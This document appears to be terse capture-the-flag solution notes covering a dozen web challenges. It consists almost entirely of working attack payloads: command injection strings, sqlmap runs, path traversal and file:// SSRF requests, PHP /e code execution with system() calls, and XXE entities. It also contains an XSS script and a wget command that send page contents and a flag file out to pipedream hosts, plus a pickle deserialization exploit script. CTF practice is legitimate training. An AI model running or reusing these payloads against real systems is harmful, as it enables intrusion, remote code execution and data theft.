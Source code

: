 # ctf
ctf

Ping station (Command injection vulnerability)
1.1.1.1;ls
1.1.1.1; cat flag – open file
1.1.1.1; pwd – current directory
1.1.1.1; whoami – current user
1.1.1.1; find / -name flag – search
1.1.1.1; ps aux -- Display running processes on the system.
1.1.1.1; top -- Display real-time system information, such as running processes, memory, and CPU usage.

 small-data-leak (Sql Injection vulnerability)
http://34.141.113.155:32320/user?id= 
└─$ sqlmap -u http://34.141.113.155:32320/user?id=1
sqlmap -u "http://34.141.113.155:32320/user?id=1" –dbs
$ sqlmap -u "http://34.141.113.155:32320/user?id=1" -D public –tables
$ sqlmap -u "http://34.141.113.155:32320/user?id=1" -D public -T "ctf{57b23475b9b02093a9eb5d7df5f07957e2b2dc724443d6b08961fbe3387" –columns
 file-crawler(File Inclusion)
<img src="local?image_name=static/path.jpg" align="middle">
http://34.141.113.155:32610/local?image_name=../../../etc/passwd
curl http://34.107.71.117:30687/local?image_name=/tmp/flag

Attackers might encode characters in the URL to evade detection. For example, converting characters like & or / into their hexadecimal equivalents (%26 for & or %2F for /) can bypass simple filters that don't decode URLs before checking.
•	Example: /admin → %2Fadmin.

 ultra-crawl
file:///home/ctf/app.py
curl -X POST "http://34.141.113.155:30477/" -d "url=file:///etc/passwd"   
curl -X POST "http://34.141.113.155:30477" -d "url=file:///home/ctf/sir-a-random-folder-for-the-flag/flag.txt"
└─$ curl -X GET "http://34.141.113.155:30477/" -H "Host: company.tld"
 alien-inclusion(Request Forgery)
curl http://34.141.113.155:31736/?vector=/Admin/e&replace=phpinfo()
curl "http://34.141.113.155:31736/?start=" --data "start=flag.php"   
                                                                                                                                                                                                 
 substitute(Code Execution)
http://34.141.113.155:31714/index.php?vector=/Admin/e&replace=system('whoami')
http://34.141.113.155:31714/index.php?vector=/Admin/e&replace=system('ls -la')
http://34.141.113.155:31714/index.php?vector=/Admin/e&replace=system('ls -la /var/www/html/here_we_dont_have_flag')
http://34.141.113.155:31714/index.php?vector=/Admin/e&replace=system('cat /var/www/html/here_we_dont_have_flag/flag.txt')


Downloader-v1:
https://eodlwq7lnoytrkk.m.pipedream.net / --post-file '/var/www/html/flag.php' 

framable:
<script> 
var exfil = document.getElementsByTagName("body")[0].innerHTML; 
window.location.href="https://enmi59d56bybo.x.pipedream.net?gio=" + btoa(exfil); 
</script> 

manual-review:
<script>window.location.href="https://your-pipedream-url.x.pipedream.net/hello";</script> 

cyntaxcheck payloads:
payload 1: 
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM 
"file:///var/www/html/flag"> 
]> 
<foo> 
</foo> 
Payload 2: 
&xxe; 
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM 
"php://filter/convert.base64-encode/resource=/var/www/html/flag"> 
]> 
<foo> 
&xxe; 
</foo> 

alpa-cookie:
pip install pwntools 
python3 

 from pwn import xor 
 decoded_data = 
bytes.fromhex("6f50327a481d6d33243e3f5a32375d2427765d486933047422362b3a6b3b2a04
 4c3c64") 
key = "G4BJBNJCALR3AD4KIQW8X9WSWENHL1Z6FOJ" 
result = xor(decoded_data, key)
print(result)
import pickle 
parsed_data = pickle.loads(b"(dp0\nS'permission'\np1\nS'user'\np2\ns.") 
print(parsed_data)
 parsed_data['permission'] = 'admin' 
mofified_payload = pickle.dumps(parsed_data, protocol=2) 
print(modified_payload)
print(mofified_payload)
encoded_payload = xor(mofified_payload, key)
 print(encoded_payload.hex())

 rundown:
 curl -X POST "http://35.198.127.202:30947/" > output.html 
 firefox output.html
Payload:  
import pickle as cPickle 
import base64 
import os 
import string 
import requests 
import time 
class Exploit(object): 
def __reduce__(self): 
return (eval, ('eval(open("flag","r").read())',)) 
def sendPayload(p): 
newp = base64.urlsafe_b64encode(p).decode() 
headers = {'Content-Type': 'application/T3jv1l'} 
r = 
requests.post("http://34.159.172.66:32274/",headers=headers,data=newp) 
return r.text 
payload_dec = cPickle.dumps(Exploit(), protocol=2) 
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] + 
"}") 

